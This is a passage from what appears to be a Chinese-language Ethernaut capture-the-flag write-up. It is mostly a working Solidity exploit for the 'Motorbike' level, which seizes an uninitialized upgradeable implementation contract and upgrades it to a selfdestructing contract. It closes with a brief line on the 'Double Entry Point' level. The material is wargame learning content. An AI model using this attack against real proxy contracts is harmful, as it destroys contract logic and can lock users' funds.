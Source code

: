 ### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity <0.7.0;
import "@openzeppelin/contracts/utils/Address.sol";

contract MotorbikeAttack {

    // Address of current implementation (The Engine)
    address public implementation;
    event Check(bool result);

    constructor(address impl) public {
        implementation = impl;
    }

    function takeControl() external returns(bytes memory) {
        // take control over the Engine
        Address.functionCall(implementation, abi.encodeWithSignature("initialize()"));
    }
    
    function destroy() external {
        // Upgrade the engine to a contract that selfdestruct once initialized
        Exploit exploit = new Exploit();

        Address.functionCall(
           implementation, 
           abi.encodeWithSignature(
            "upgradeToAndCall(address,bytes)",
            address(exploit),
            abi.encodeWithSignature("initialize()")
           )
        );
    }

    function validateItIsBroken() external {
        emit Check(Address.isContract(implementation));
    }
    
}

contract Exploit {

    function initialize() external {
        selfdestruct(msg.sender);
    }
}
```

## 26. Double Entry Point
自己寫個 forta bot
